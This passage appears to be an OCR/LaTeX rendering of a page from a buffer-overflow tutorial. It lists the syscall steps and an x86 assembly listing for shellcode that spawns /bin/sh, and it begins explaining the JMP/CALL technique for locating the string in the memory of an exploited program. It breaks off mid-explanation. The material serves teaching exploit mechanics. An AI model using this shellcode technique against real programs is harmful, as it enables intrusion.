 \documentclass[a4paper]{article}
\begin{document}
\begin{enumerate}
\item Have the null terminated string “/bin/sh” somewhere in memory.
\item Have the address of the string “/bin/sh” somewhere in memory followed by a null long word.
\item Copy 0xb into the EAX register.
\item Copy the address of the address of the string “/bin/sh” into the EBX register.
\item Copy the address of the string “/bin/sh” into the ECX register.
\item Copy the address of the null long word into the EDX register.
\item Execute the int \$0x80 instruction.
\item Copy 0x1 into the EAX register.
\item Copy 0x0 into the EBX register.
\item Execute the int \$0x80 instruction.

\end{enumerate}

Trying to put this together in assembly language, placing the string after the code, and remembering we will place the address of the string, and null word after the array, we have:

\begin{verbatim}

	movl   string_addr,string_addr_addr
	movb   $0x0,null_byte_addr
	movl   $0x0,null_addr
	movl   $0xb,%eax
	movl   string_addr,%ebx
	leal   string_addr,%ecx
	leal   null_addr,%edx
	int    $0x80
	movl   $0x1, %eax
	movl   $0x0, %ebx
	int    $0x80
	/bin/sh string goes here.
    
\end{verbatim}

The problem is that we don’t know where in the memory space of the program we are trying to exploit the code (and the string that follows it) will be placed. One way around it is to use a \texttt{JMP}, and a \texttt{CALL} instruction. The \texttt{JMP} and \texttt{CALL} instructions can use \texttt{IP} relative addressing, which means we can jump to an offset from the current \texttt{IP} without needing to know the exact address of where in memory we want to jump to. If we place a \texttt{CALL} instruction right before the “/bin/sh” string, and a \texttt{JMP} instruction to it, the strings address will be pushed onto the stack as the return address when \texttt{CALL} is executed. All we need then is to copy the return address into a register. The \texttt{CALL} instruction can simply call the start of our code above. Assuming now that \texttt{J} stands for the \texttt{JMP} instruction, \texttt{C} for the \texttt{CALL} instruction, and \texttt{s} for the string, the execution flow would now be:
\end{document}
